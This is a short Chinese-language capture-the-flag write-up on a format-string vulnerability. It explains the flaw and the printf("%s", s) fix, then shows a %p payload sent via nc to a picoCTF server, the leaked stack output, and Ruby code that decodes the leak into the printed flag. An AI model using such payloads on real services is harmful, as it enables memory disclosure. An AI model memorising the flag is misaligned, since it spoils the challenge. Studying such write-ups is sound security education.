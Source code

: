 所谓的格式化字符串攻击可以利用类似的方法来进行攻击, 
不过这样的漏洞好像在编译的时候都会提醒的... 
但是在粗心的程序设计里面可能就会留下这样的漏洞. 
为了避免这样的漏洞, 可以`printf("%s", s);`来防止漏洞. 

多试试组合就好了: 

```shell
> ruby -e 'print "%p" * 100 ' | nc saturn.picoctf.net 50946
Tell me a story and then I'll tell you one >> Here's a story - 
0xffd13f200xffd13f400x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x635f6b630x343965320x7d6433650xfbad20000xc905a800(nil)0xf7fe69900x804c0000x8049410(nil)0x804c0000xffd140080x80494180x20xffd140b40xffd140c0(nil)0xffd14020(nil)(nil)0xf7ddcee5
```

```irb
> a = "0xffd13f200xffd13f400x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x6f6369700x7b4654430x6b34334c0x5f676e310x673
46c460x6666305f0x3474535f0x635f6b630x343965320x7d6433650xfbad20000xc905a800(nil)0xf7fe69900x804c0000x8049410(nil)0x804c0000xffd140080x80494180x20xffd140b40xffd140c0(nil)0xffd14020(nil)(nil)0xf7ddcee5".split("0x")
> def hexstr2str(hexstr)
>   str = ""
>   num = hexstr.to_i(16)
>   while num > 0
>     str << (num & 0xff).chr
>     num /= 0x100
>   end
>   str
> end
> a.each do |hexstr|
>   p hexstr2str(hexstr)
> end
...
"%p%"
"pico"
"CTF{"
"L34k"
"1ng_"
"Fl4g"
"_0ff"
"_St4"
"ck_c"
"2e94"
"e3d}"
"\x00 \xAD\xFB"
...
```
